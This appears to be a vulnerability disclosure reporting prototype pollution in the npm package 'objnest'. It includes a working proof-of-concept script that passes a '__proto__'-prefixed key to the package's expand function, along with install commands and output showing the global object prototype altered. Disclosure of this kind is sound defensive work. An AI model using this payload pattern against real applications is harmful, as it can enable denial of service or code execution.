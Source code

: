 # Description

`objnest` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var objnest = require("objnest")
console.log("Before : " + {}.polluted);
objnest.expand({"__proto__.polluted": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i objnest # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
